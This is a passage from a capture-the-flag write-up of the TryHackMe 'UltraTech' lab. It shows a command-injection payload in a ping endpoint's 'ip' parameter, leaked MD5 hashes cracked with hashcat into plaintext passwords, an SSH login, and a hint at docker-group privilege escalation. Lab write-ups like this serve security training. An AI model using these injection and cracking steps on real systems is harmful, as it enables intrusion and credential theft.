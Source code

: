 ![Notice the response with our request **GET /ping?ip=``ls`` HTTP/1.1** ](/ultratech/Untitled%202.png)

Notice the response with our request **GET /ping?ip=``ls`` HTTP/1.1** 

# Hashcat

A SQLITE database is revealed to us with the “ls” command. We cat it out and some hashes are revealed to us along with two usernames. They look like MD5 hashes.

The hashes are easily cracked with Hashcat.

```bash
**# HTTP Response**
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 147
ETag: W/"93-594eIY8lmtfDeu2ln6BdpbW24SI"
Date: Mon, 19 Sep 2022 17:12:23 GMT
Connection: close

ping: )���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded

# Cracking the hashes
┌──(kali㉿kali)-[~/tryhackme]
└─$ hashcat -m 0 users.hash ~/wordlists/rockyou.txt
Dictionary cache built:
* Filename..: /home/kali/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

f357a0c52799563c7c7b76c1e7543a32:n100906                  
0d0ea5111e3c1def594c1684e3b9be84:mrsheafy**

```

# Gaining access

Now that we have some credentials, we can SSH to the host and get an interactive, proper shell.

Seeing that we are a member of the docker group, we could probably exploit this somehow to elevate our privileges or read some files belonging to the root user.

```bash
# SSH
Last login: Mon Sep 19 17:39:16 2022 from 10.14.6.6
r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ uname -a
Linux ultratech-prod 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
r00t@ultratech-prod:~$
r00t@ultratech-prod:~$ groups
r00t docker
```
